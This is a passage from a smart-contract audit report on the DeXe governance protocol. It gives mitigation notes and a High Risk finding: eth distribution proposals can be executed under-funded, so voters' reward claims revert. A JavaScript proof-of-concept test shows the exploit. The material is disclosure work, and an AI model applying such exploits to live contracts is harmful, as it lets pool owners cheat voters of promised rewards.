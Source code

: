 Run attack with: `npx hardhat test --grep "audit attack 1 sets ERC721Power totalPower & all nft currentPower to 0"`

**Recommended Mitigation:** Resolve the discrepancy between `ERC721Power` [L144](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/ERC721/ERC721Power.sol#L144) & [L172](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/ERC721/ERC721Power.sol#L172).

**Dexe:**
Fixed in [PR174](https://github.com/dexe-network/DeXe-Protocol/commit/8c52fe4264d7868ab261ee789d0efe9f4edddfc2).

**Cyfrin:** Verified.

\clearpage
## High Risk


### Under-funded eth distribution proposals can be created causing claiming rewards to revert

**Description:** It is possible to create under-funded eth distribution proposals as `DistributionProposal::execute()` [L62-63](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/proposals/DistributionProposal.sol#L62-L63) doesn't check whether `amount == msg.value`. If `msg.value < amount` an under-funded distribution proposal will be executed.

This opens up an attack vector where a malicious GovPool owner can provide fake incentives to users to make them vote on proposals. At the time of reward distribution, owner can simply execute a distribution proposal without sending the promised amount as reward. As a result, users end up voting for a proposal and not getting paid for it.


**Impact:** Users can't claim their rewards as `DistributionProposal::claim()` will revert for under-funded distribution proposals. Since anybody can create a `GovPool`, there is a potential for loss to users due to malicious intent.

**Proof of Concept:** Add this PoC to `test/gov/proposals/DistributionProposal.test.js` under the section `describe("claim()", () => {`:
```javascript
      it("under-funded eth distribution proposals prevents claiming rewards", async () => {
        // use GovPool to create a proposal with 10 wei reward
        await govPool.createProposal(
          "example.com",
          [[dp.address, wei("10"), getBytesDistributionProposal(1, ETHER_ADDR, wei("10"))]],
          [],
          { from: SECOND }
        );

        // Under-fund the proposal by calling DistributionProposal::execute() with:
        // 1) token     = ether
        // 2) amount    = X
        // 3) msg.value = Y, where Y < X
        //
        // This creates an under-funded proposal breaking the subsequent claim()
        await impersonate(govPool.address);
        await dp.execute(1, ETHER_ADDR, wei("10"), { value: wei(1), from: govPool.address });

        // only 1 vote so SECOND should get the entire 10 wei reward
        await govPool.vote(1, true, 0, [1], { from: SECOND });

        // attempting to claim the reward fails as the proposal is under-funded
        await truffleAssert.reverts(dp.claim(SECOND, [1]), "Gov: failed to send eth");
      });
```
